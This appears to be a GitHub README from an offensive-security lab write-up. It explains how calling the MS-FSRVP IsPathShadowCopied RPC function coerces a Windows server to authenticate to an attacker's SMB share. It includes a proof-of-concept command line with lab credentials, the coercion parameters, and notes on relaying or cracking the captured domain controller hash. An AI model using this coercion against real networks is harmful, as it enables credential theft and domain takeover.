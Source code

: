 # MS-FSRVP - Remote call to IsPathShadowCopied (opnum 9)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **Function name**: [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e)

+ **Function operation number**: `9`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathShadowCopied(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* ShadowCopyPresent,
    [out] long* ShadowCopyCompatibility
);
```

+ **hBinding**:  An RPC binding handle (as defined in [C706]).


+ **ShareName**: The full path of the share in UNC format.


+ **ShadowCopyPresent**: This value is set to TRUE if the ShareName specified has a shadow copy; otherwise set to FALSE.


+ **ShadowCopyCompatibility**: This value indicates whether certain I/O operations on the file store containing the shadow copy are disabled. This MUST be zero or a combination of the values as specified in section 2.2.2.3.

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b


+ Documentation of function `IsPathShadowCopied`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e

+ This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Dec 28, 2021: https://twitter.com/topotam77/status/1475701014204461056